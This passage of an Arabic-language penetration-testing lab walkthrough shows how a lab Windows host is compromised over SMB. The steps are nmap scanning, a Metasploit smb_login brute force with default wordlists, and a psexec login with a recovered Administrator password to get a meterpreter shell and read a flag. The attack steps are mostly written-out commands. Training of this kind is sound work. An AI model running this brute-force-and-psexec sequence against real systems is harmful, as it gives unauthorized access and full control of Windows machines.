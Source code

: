 نقرا الفلاق
[cd /] عشان يرجعنا لمسار الـ C
[cat flag.txt] والان قرينا الفلاق

---

طبعا ثالث لاب معنا فيه هذا الجزء هو اللاب

Windows: SMB Server PSexec
----------------------------|

والان نجي لاستغلال الـ SMB

زي مانشوف بالاب معطينا الايبي راح نفحصه بالـ nmap 
[nmap -sV 10.0.0.242]

نشوف انه بورت 445 شغال بنسوي عليه شوية بحث عن طريق سكربت 
[nmap -p445 --script smb-protocols 10.0.0.242]

طبعا زي مانشوف عطانا بعض المعلومات عن البروتوكول او البورت هذا

الان راح نفتح MSFconsole عشان نستغل
الان بشنغل الفريم وورك
[msfconsole]
ونستخدم هذا الموديول
[use auxiliary/scanner/smb/smb_login]وظيفته يسوي بروت فورس
والان نشوف وش المتغيرات المطلوبه مننا عن طريق هذا الامر
[show options]
مطلوب مننا USER_FILE , PASS_FILE , RHOST
نعطيه قيم هذي المتغيرات
[set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt]
[set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt]
[set RHOSTS 10.0.0.242]
[set VERBOSE false] عشان فقط يعطينا المحاولات الناجحه ومايسبب زحمه بالتيرمنال
[exploit] or [run]

نشوف انه عطانا 4 يوزرات مع باسورداتهم الان بنجرب نستغل هذي المعلومات بانه ناخذ meterpreter shell
الان بشنغل الفريم وورك
[msfconsole]
ونستخدم هذا الموديول
[use exploit/windows/smb/psexec]
والان نشوف وش المتغيرات المطلوبه مننا عن طريق هذا الامر
[show options]
نشوف انه طالب مننا SMBUser , SMBPass , RHOST
نعطيه قيم هذي المتغيرات
[set RHOSTS 10.0.0.242]
[set SMBUser Administrator]
[set SMBPass qwertyuiop]
[exploit] or [run]

وزي مانشوف انه عطانا الـ meterpreter session
طبعا ليه اخذنا يوزر Administrator
لانه اعلى صلاحيات موجوده ف دائما يكون وجهتنا الاولى
الان مطلوب نقرا الفلاق فقط
[cd c:\] عشان نروح لمسار الـ c
[cat flag.txt]

---